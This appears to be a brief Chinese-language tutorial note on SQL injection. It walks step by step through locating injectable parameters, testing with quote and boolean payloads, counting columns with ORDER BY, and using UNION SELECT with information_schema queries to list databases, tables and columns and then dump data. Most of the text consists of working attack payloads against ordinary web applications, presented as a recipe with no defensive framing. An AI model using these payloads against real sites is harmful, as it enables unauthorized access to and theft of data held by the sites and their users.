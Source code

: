 # SQL 注入
## Firefox 黑客工具栏
- Hackbar
## 找到页面注入点
1) 看页面URL地质是否有后台传参动作
2) 构造传参值  ?id=51' 验证输入后台是否能够解析
3) and 1=1判断页面是否正常； and 1=2 判断页面是否部分报错; or 1=1 
4) order by 5 (5可以是其他数字，找到报错和不报错的临界点，取不报错的最大值)
5) union select 1,2,3,4,5,6,7 --+ 
- --+指注释掉插入攻击语句后的所有代码
- 匹配order by 验证出来的列数
- 联合查询时，前面Id的值要用负数（-5）
6) union select 1,2,3,4,5,6,构造语句,7
- database()  当前使用的数据库名称
- user()      当前登陆数据库的用户
- @@version   当前数据库版本
- @@basedir   查看路径
7) 爆库   查看当前数据库中有哪些表
```SQL
(select group_concat(table_name) from information_schema.tables where table_schema=0xxxx)
-- table_schema 的值需要输入16进制
```
8) 爆表   找到疑似关键信息的表
9) 查询表的列
```SQL
(select group_concat(column_name) from information_schema.columns where table_schema=0xxxx and table_name=0xxxx)
-- table_schema 和 tabale_name 的值需要输入16进制
```
10) 爆数据  查询表中的数据
```SQL
(select group_concat(concat(column1, column2, '%23')) from table_name)
-- %23 是URL编码
```
